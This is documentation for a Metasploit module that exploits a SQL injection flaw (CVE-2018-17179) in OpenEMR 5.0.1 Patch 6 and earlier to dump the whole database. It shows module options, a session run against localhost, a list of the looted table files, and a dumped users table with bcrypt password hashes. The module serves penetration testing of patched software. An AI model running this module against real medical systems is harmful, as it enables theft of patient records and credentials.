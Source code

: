 ## Intro

This module exploits a SQLi vulnerability found in
OpenEMR version 5.0.1 Patch 6 and lower. The
vulnerability allows the contents of the entire
database (with exception of log and task tables) to be
extracted.

This module saves each table as a `.csv` file in your
loot directory and has been tested with
OpenEMR 5.0.1 (3).


## Author

Will Porter (will.porter@lodestonesecurity.com) from Lodestone Security


## References

https://www.cvedetails.com/cve/CVE-2018-17179/
https://github.com/openemr/openemr/commit/3e22d11c7175c1ebbf3d862545ce6fee18f70617


## Options

```
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /openemr         yes       The base path to the OpenEMR installation
   VHOST                       no        HTTP server virtual host
```

## Usage

This module has both `check` and `run` functions.

```
msf5 > use auxiliary/sqli/openemr/openemr_sqli_dump
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > check

[*] Trying to detect installed version
[*] 127.0.0.1:80 - The target appears to be vulnerable.
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
[*] Running module against 127.0.0.1

[*] DB Version: 10.3.15-MariaDB-1
[*] Enumerating Tables, this may take a moment...
[*] Identified 310 tables.
[*] Dumping table (1/310): ALL_PLUGINS
[*] Dumping table (2/310): APPLICABLE_ROLES
[*] Dumping table (3/310): CHARACTER_SETS
[*] Dumping table (4/310): CHECK_CONSTRAINTS
[*] Dumping table (5/310): COLLATIONS

...

[*] Dumping table (305/310): medex_recalls
[*] Dumping table (306/310): syndromic_surveillance
[*] Dumping table (307/310): lang_constants
[*] Dumping table (308/310): gacl_acl_seq
[*] Dumping table (309/310): background_services
[*] Dumping table (310/310): geo_country_reference
[*] Dumped all tables to /root/.msf4/loot
[*] Auxiliary module execution completed
msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > exit

root@localhost:/# cd /root/.msf4/loot
root@localhost:~/.msf4/loot# ls -l

-rw-rw-r-- 1 root root   207 Sep 11 01:33 20190911013307_default_127.0.0.1_openemr.ALL_PLUG_118002.bin
-rw-rw-r-- 1 root root    42 Sep 11 01:33 20190911013308_default_127.0.0.1_openemr.APPLICAB_752726.bin
-rw-rw-r-- 1 root root    59 Sep 11 01:33 20190911013309_default_127.0.0.1_openemr.CHARACTE_047422.bin
-rw-rw-r-- 1 root root    77 Sep 11 01:33 20190911013309_default_127.0.0.1_openemr.CHECK_CO_374587.bin
-rw-rw-r-- 1 root root    68 Sep 11 01:33 20190911013310_default_127.0.0.1_openemr.COLLATIO_513047.bin

...

-rw-rw-r-- 1 root root    37 Sep 11 01:47 20190911014756_default_127.0.0.1_openemr.syndromi_322156.bin
-rw-rw-r-- 1 root root     3 Sep 11 01:47 20190911014757_default_127.0.0.1_openemr.gacl_acl_006027.bin
-rw-rw-r-- 1 root root    22 Sep 11 01:47 20190911014757_default_127.0.0.1_openemr.lang_con_639806.bin
-rw-rw-r-- 1 root root   139 Sep 11 01:47 20190911014759_default_127.0.0.1_openemr.backgrou_037369.bin
-rw-rw-r-- 1 root root  5462 Sep 11 01:48 20190911014846_default_127.0.0.1_openemr.geo_coun_668990.bin

root@localhost:~/.msf4/loot# cat 20190911014115_default_127.0.0.1_openemr.users_se_735944.bin
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,admin,$2a$05$bxcQWy1ZeIwV2/ScGBQlTOeUVqJo9MdvHuF1mBs4Jo7H0/bFpZoPK,$2a$05$bxcQWy1ZeIwV2/ScGBQlTZ$,2019-08-27 20:07:13,"","","",""
4,johndoemsf,$2a$05$gUWCtnsoqPBbn5zKiasyaOphgJwkA9BySy7LnK3BswyWt0RrLb0Ma,$2a$05$gUWCtnsoqPBbn5zKiasyaQ$,2019-08-29 02:01:28,"","","",""
6,johnderp,$2a$05$nAHQ7japfATDqqgArPImlu5svMG79W1nj1SNBpE7xkEhS42.AvlWq,$2a$05$nAHQ7japfATDqqgArPImlv$,2019-08-29 02:02:32,"","","",""
7,janedoemsf,$2a$05$uv85uBLeAOWQWWl9hHGL0uUy1KZSTgNGbZfJ9o8Lg0ILuSeGCNDbm,$2a$05$uv85uBLeAOWQWWl9hHGL06$,2019-08-29 02:09:37,"","","",""
```
